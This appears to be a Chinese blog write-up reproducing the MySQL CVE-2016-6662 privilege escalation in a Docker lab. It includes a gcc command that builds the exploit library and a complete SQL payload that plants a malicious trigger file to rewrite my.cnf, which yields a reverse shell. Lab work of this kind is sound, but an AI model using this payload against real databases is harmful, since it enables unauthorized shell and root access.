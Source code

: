 ```yaml
---
title: MYSQL提权分析
date: 2016-09-18 08:53:47
tags: 
 - cve
categories: notes
---
```


# 概述

几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）

<!-- more -->
# 漏洞影响

```
MySQL  <= 5.7.15       远程代码执行/ 提权 (0day)
        5.6.33
        5.5.52

Mysql分支的版本也受影响,包括：
    MariaDB
    PerconaDB
```

# 实验分析

这次实验主要使用docker搭建环境，有需要的同学可以pull我的库玩[0kami/vulenv:cve-2016-6663](https://hub.docker.com/r/0kami/vulevn/tags/)
实验主要从attacker的角度入手，预先拥有的权限：
```
mysql 账户拥有file权限 bob/bob
exp mysql_hookandroot_lib.c
mysql-server-5.6
my.cnf可被mysql组改写写
```

先查看一下版本信息
![](/images/cve-2016-6662/pic1.png)
将`/etc/mysql/my.cnf`权限修改掉
![](/images/cve-2016-6662/pic2.png)
创建bob用户，并赋予file，select，insert权限，创建用于实验的数据库activedb和表active_table
![](/images/cve-2016-6662/pic3.png)
![](/images/cve-2016-6662/pic4.png)
将exp先写入tmp目录，并编译成so文件，需要修改一下ip，port和my.cnf的位置
![](/images/cve-2016-6662/pic5.png)
`gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c.so mysql_hookandroot_lib.c.c -ldl`
![](/images/cve-2016-6662/pic6.png)
最后一步就是准备一下active_table的触发器了，我们可以现在自己电脑上root用户权限下生成一个tragger
![](/images/cve-2016-6662/pic7.png)
在activedb数据下会生成一个触发器
![](/images/cve-2016-6662/pic8.png)
到此位置我们所有的准备工作都做好了。让我们用bob用户来弹个shell吧
```
select "TYPE=TRIGGERS\ntriggers='CREATE DEFINER=`root`@`localhost` TRIGGER active_table\nAFTER INSERT\n   ON `active_table` FOR EACH ROW\nBEGIN\n   DECLARE void varchar(550);\n   set global general_log_file=\\\'/etc/mysql/my.cnf\\\';\n   set global general_log = on;\n   select \"\n[mysqld]\nmalloc_lib=\\\'/tmp/mysql_hookandroot_lib.so\\\'\n\" INTO void;   \n   set global general_log = off;\nEND'\nsql_modes=1073741824\ndefiners='root@localhost'\nclient_cs_names='latin1'\nconnection_cl_names='latin1_swedish_ci'\ndb_cl_names='latin1_swedish_ci'" into dumpfile '/var/lib/mysql/activedb/active_table.TRG';
```
用bob的用户写入文件产生一个触发器，这个触发器当产生insert时触发
![](/images/cve-2016-6662/pic9.png)
来查看一下，执行后的`/etc/mysql/my.cnf`的内容
![](/images/cve-2016-6662/pic10.png)
重启一下数据库，反弹一个shell
发现可写的my.cnf会被忽略？？？不知道为什么（难道打补丁了？），不知道5.5的情况会怎么样，所以先把my.cnf的权限改回来744
![](/images/cve-2016-6662/pic11.png)
![](/images/cve-2016-6662/pic12.png)
成功反弹一个shell，这边返回的一个shell是mysql权限的 是因为我测试的环境mysqld_safe是以mysql权限运行的，所以弹出来的权限是mysql的，但是如果mysqld_safe是以root权限运行，那么反弹的shell就是root权限的，造成提权。
# 总结
测试环境搭建还有利用过程还是出现了很多问题，可写的my.cnf会被忽略载入（不知道是不是因为修复过的原因），triggers的利用（可以同样利用在拥有file权限的情况下提升权限，这个到时候再深入学习一下）


